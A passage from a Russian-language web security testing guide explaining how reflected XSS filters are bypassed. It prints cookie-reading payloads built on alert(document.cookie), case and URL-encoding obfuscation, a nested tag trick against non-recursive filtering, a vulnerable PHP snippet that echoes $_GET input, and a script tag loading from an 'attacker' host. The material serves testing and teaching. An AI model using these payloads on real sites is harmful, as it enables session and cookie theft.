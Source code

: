 ```html
<input type="text" name="state" value="ВВОД_ОТ_ПОЛЬЗОВАТЕЛЯ">
```

Тогда злоумышленник может отправить следующий код:

```text
" onfocus="alert(document.cookie)
```

#### Пример №4: другой синтаксис или кодировка

В некоторых случаях фильтры на основе сигнатур можно обойти, просто обфусцируя атаку. Обычно это можно сделать, добавляя неожиданные изменения в синтаксис или кодировку. Браузеры воспринимают эти варианты как допустимый HTML, также они могут быть приняты фильтром.

Вот несколько примеров:

- `"><script >alert(document.cookie)</script >`
- `"><ScRiPt>alert(document.cookie)</ScRiPt>`
- `"%3cscript%3ealert(document.cookie)%3c/script%3e`

#### Пример №5: обход нерекурсивной фильтрации

Иногда нейтрализация применяется однократно, но без рекурсии. В этом случае злоумышленник может обойти фильтр, отправив строку, содержащую несколько попыток, например, так:

```text
<scr<script>ipt>alert(document.cookie)</script>
```

#### Пример №6: включение внешнего скрипта

Теперь предположим, что разработчики целевого сайта реализовали следующий код для защиты ввода от включения внешнего скрипта:

```php
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```

Раскрывая приведённое выше регулярное выражение, получаем следующие проверки:

1. на наличие `<script`
2. на наличие " " (пробела)
3. на наличие одного или нескольких вхождений любого символа, кроме `>`
4. на наличие `src`.

Код будет полезным для фильтрации выражений типа `<script src="http://attacker/xss.js"></script>`, которые являются распространённой атакой. Но в этом случае можно обойти нейтрализацию, используя символ `>` в атрибуте между script и src, например:
